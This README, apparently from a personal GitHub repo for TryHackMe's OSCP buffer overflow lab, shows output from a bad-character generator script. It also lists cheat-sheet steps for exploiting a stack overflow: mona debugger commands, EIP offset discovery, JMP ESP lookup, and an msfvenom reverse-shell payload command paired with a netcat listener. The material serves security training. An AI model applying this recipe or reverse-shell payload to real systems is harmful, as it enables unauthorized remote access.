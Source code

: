 # TryHackMe_OSCP_BufferOverFlow_Prep

This repo is for two python files used to complete the OSCP BufferOverFlowPrep room from TryHackMe.com

I used the provided script's from THM for the first 4 levels of the room.

I then coded myfuzz.py and myexp.py on my own and for practice.

I also made a quick script, badchars.py to generate string that removes bad characters.

## Example of badchars.py when submitting \x00\x01\x02 as bad chars
## notice the output starts at \x03 skipping over the bad chars

    python3 badchars.py

    Enter badchars, example \x00\xae\x24: \x00\x01\x02

    \x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f
    \x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c
    \x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29
    \x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36
    \x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43
    \x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50
    \x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d
    \x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a
    \x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77
    \x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84
    \x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91
    \x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e
    \x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab
    \xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8
    \xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5
    \xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2
    \xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf
    \xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec
    \xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9
    \xfa\xfb\xfc\xfd\xfe\xff


## Cheat Sheet Steps for BOF exploitation

- config mona in Immunity Debugger
  - !mona config -set workingfolder c:\mona\%p
- fuzz to find crash point with myfuzz.py
- generate pattern to find EIP offset
  - /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <fuzzing break point>
- put character pattern "payload" in myexp.py
- find eip offset
  - !mona findmsp -distance <break point>
- add offset to myexp.py and RETN with "BBBB" eip should have "42424242" to verify we've overwritten EIP
- check bad chars
  - create char list for mona !mona bytearray -b "\x00"
  - create local list with badchars.py
  - put badchars.py output in myexp.py payload then run
- check bad chars in mona with esp address 
  - !mona compare -f C:\mona\oscp\bytearray.bin -a <ESP Address>
- find jmp esp - !mona jmp -r esp -cpb "<found bad chars>"
- generate shell code with msfvenom msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
- Add NOP sled to prepend in myexp.py 
  - prepend = "\x90" * 16 in myexp.py
- Start Netcat Listener for port usesd in msfvenom
- Send the exploit by running myexp.py one last time and catch the shell.
